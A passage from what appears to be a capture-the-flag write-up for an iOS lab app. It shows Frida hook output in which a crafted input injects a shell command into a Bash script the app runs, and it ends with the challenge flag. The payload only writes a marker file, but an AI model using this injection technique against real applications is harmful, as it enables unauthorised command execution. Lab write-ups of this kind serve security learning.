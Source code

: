 **Note:** when you press the "Check Out" button, the Frida script will print the Bash script that was executed; observe that the injected command appears and ran as expected.

```bash
[iOS Device::com.mobilehackinglab.TimeTrap3.W46SY5ZJ6Z ]-> [*] onEnter: target = 0x1048f8000
[*] arg0 as C-string: if [[ $(uname -a) != "any" ]]; then echo 'rce' > /tmp/rce.txt; fi #" ]]; then uname -a; fi
```

<br />

**Flag:** MHL{9_t0_5_C0mm4ndz_Sl4v1ng_4w4y}
